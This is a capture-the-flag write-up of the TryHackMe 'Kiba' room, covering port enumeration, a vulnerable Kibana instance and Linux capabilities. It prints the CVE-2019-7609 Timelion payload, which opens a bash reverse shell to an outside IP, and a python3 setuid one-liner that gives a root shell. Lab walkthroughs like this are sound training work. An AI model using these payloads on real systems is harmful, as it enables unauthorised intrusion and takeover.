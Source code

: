 ```yaml
---
title: "TryHackMe - Kiba"
author: Nasrallah
description: ""
date: 2022-10-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, capability, getcap, rce, cve, python]
img_path: /assets/img/tryhackme/kiba
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Kiba](https://tryhackme.com/room/kiba) from [TryHackMe](https://tryhackme.com). The target is running a web application vulnerable to command execution which we use to get a reverse shell. Then we found a capability that we exploit to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.130.144
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH and 80 running an Apache web server.

### Web

Let's check the web site.

![](1.png)

We found some ASCII art with the message `Welcome, "linux capabilities" is very interesting.`.

### Gobuster

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.130.144/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2022/10/07 05:38:14 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1291]
/server-status        (Status: 403) [Size: 278] 
===============================================================
```

Couldn't find anything useful.

Let's scan all ports this time.

```terminal
Nmap scan report for 10.10.134.123                                                                                                                           
Host is up (0.14s latency).                                                                                                                                  
Not shown: 9996 closed ports                                                                                                                                 
PORT     STATE SERVICE      VERSION                                                                                                                          
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                     
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)            
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)           
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)         
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))                
|_http-server-header: Apache/2.4.18 (Ubuntu)                              
|_http-title: Site doesn't have a title (text/html).  
5044/tcp open  lxi-evntsvc?                                                   
5601/tcp open  esmagent?                                                      
| fingerprint-strings:                                                                                                                                       
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessi
onReq, TLSSessionReq, TerminalServerCookie, X11Probe:                     
|     HTTP/1.1 400 Bad Request                                                
|   FourOhFourRequest:                                                        
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Mon, 25 Oct 2021 15:08:48 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Mon, 25 Oct 2021 15:08:43 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Mon, 25 Oct 2021 15:08:43 GMT

```

We found 2 other ports, let's check port 5601 since it seems to run a web application.

![](2.png)

This port is running Kibana which is a free and open user interface that lets you visualize your Elasticsearch data and navigate the Elastic Stack.

Navigating through the different tabs, we find the version number in the management tab.

![](3.png)

Searching on google, we find that this version is vulnerable to command execution. 


## **Foothold**

On this [github repository](https://github.com/mpgn/CVE-2019-7609), we find an explanation on how to get a reverse shell using the following payload.

```bash
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.10.10.10/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

 1. Go to Timelion tab.
 2. Past the payload into the Timelion visualizer.
 3. Click run
 4. Setup a listener.
 5. On the left panel click on Canvas

![](4.png)

![](5.png)


## **Privilege Escalation**

Now let's check the capabilities since we got a hint on the first web page about that. `getcap -r / 2>/dev/null`

```terminal
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

We found a python3 binary with setuid capability, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).

![](6.png)

We need to run the following command for a root shell.

```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](7.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://gtfobins.github.io/gtfobins/python/#capabilities

https://github.com/mpgn/CVE-2019-7609